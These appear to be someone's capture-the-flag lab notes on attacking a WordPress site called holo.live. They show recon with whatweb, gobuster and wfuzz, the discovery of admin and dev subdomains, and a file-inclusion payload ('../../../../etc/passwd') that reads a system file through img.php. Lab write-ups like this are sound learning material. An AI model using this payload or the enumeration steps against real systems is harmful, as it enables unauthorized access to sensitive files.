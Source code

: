 
As you can see that we are not able to load the page fully 
![[Pasted image 20240810102758.png]]

Which means that we need to add the IP address in our localhost and see the magic

```
whatweb 10.201.11.33
http://10.201.11.33 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.201.11.33], MetaGenerator[WordPress 5.5.3], Script[text/javascript], Title[holo.live], UncommonHeaders[link], WordPress[5.5.3], X-UA-Compatible[IE=edge]
```

We were able to see from the nmap and nikto scan that we are able to access the robots.txt
```
http://www.holo.live/robots.txt
```
![[Pasted image 20240810164134.png]]

```
low: /var/www/wordpress/index.php
Disallow: /var/www/wordpress/readme.html
Disallow: /var/www/wordpress/wp-activate.php
Disallow: /var/www/wordpress/wp-blog-header.php
Disallow: /var/www/wordpress/wp-config.php
Disallow: /var/www/wordpress/wp-content
Disallow: /var/www/wordpress/wp-includes
Disallow: /var/www/wordpress/wp-load.php
Disallow: /var/www/wordpress/wp-mail.php
Disallow: /var/www/wordpress/wp-signup.php
Disallow: /var/www/wordpress/xmlrpc.php
Disallow: /var/www/wordpress/license.txt
Disallow: /var/www/wordpress/upgrade
Disallow: /var/www/wordpress/wp-admin
Disallow: /var/www/wordpress/wp-comments-post.php
Disallow: /var/www/wordpress/wp-config-sample.php
Disallow: /var/www/wordpress/wp-cron.php
Disallow: /var/www/wordpress/wp-links-opml.php
Disallow: /var/www/wordpress/wp-login.php
Disallow: /var/www/wordpress/wp-settings.php
Disallow: /var/www/wordpress/wp-trackback.php
```

Let's do the next thing and for now it's Directory Bursting.

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.201.11.33 -o gobuster/vhost-sub.txt -t 2
```

https://wfuzz.readthedocs.io/en/latest/user/getting.html
```
wfuzz -u http://holo.live -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.holo.live" --hh 21456
```
![[Pasted image 20240810180924.png]]

now we have to add admin and dev and will see if we are able to get something.


Got 2 new sites
```
http://admin.holo.live/
```

```
http://dev.holo.live/
```


SO we need id and password to login for which we have to do some OSINT and see what we can find from the development site

```
http://dev.holo.live/img.php?file=images/matsuri.jpg
```
Can we find LFI here or not ?_?

Yes my hunch was right and i have taken the help of chat gpt.
![[Pasted image 20240813200130.png]]
```
http://dev.holo.live/img.php?file=../../../../etc/passwd
```
![[Pasted image 20240813200211.png]]

